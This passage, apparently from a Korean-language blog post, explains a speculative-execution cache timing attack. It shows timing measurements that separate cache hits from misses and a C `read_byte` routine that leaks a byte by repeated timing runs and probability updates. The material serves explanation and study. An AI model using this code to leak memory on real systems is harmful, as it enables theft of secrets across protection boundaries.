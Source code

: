 `stall_speculate(addr, ch->mapping)` 후에는`time_read(ch->mapping[line])`가 호출됩니다. `ch->mapping`를 읽어들이려고 할 때 시간이 얼마나 걸리는지를 측정하여 cache timing attack을 위한 통계 정보를 수집하는 것입니다.

```c
unsigned long long t = time_read(ch->mapping[line]);
printf("%d\n", t);
```

실제로 위와 같이 코드를 삽입하여 t 값을 출력을 해보면 아래와 같이 불규칙적인 값이 나오는 것을 확인할 수 있습니다.

```
1436 250 250 256 252 254 254 252 248 252 654 252 252 252 250 252 254 252 250 254 254 248 252 252 250 252 248 252 254 252 250 252 268 272 252 252 254 1034 256 254 256 252 256 256 248 254 256 252 252 252 252 254 252 252 252 254 278
```

대부분은 300미만의 값을 갖는데 이보다 더 큰 값들은 무엇을 의미하는 것일까요? 그제서야 처음으로 캐싱이 일어났다는 것을 의미합니다. 즉, 캐시 히트가 일어나면 200대의 값을 갖고 캐시 미스가 발생하면 일반 메모리에서 값을 가져오느라 더 큰 값을 가지는 것입니다.

```c
#define MAX_UNCERTAINTY 8.636e-78
#define MAX_RETRIES 100
double distribution[256];
int read_byte(channel *ch, void *addr, int verbose)
{
	for(int line = 0; line < 256; line++)
		distribution[line] = 1.0 / 256;
	int val = -1;
	if(verbose)
		printf("%20.13g %02x", 0, 0);
	while(val == -1)
	{
		double unc;
		int newval = run_timing_once(ch, addr, &unc);
		for(int line = 0; line < 256; line++)
			if(line != newval)
				distribution[line] = fmin(1.0, distribution[line] / unc);
		distribution[newval] *= unc;

		for(int line = 0; line < 256; line++)
			if(distribution[line] < MAX_UNCERTAINTY)
				val = line;

		int md = 0;
		for(int line = 0; line < 256; line++)
			if(distribution[line] < distribution[md])
				md = line;

		if(verbose)
			printf("\e[23D%20.13g %02x", distribution[md], md); fflush(stdout);
	}
	if(verbose)
		printf("\e[23D");
	return val;
}
```
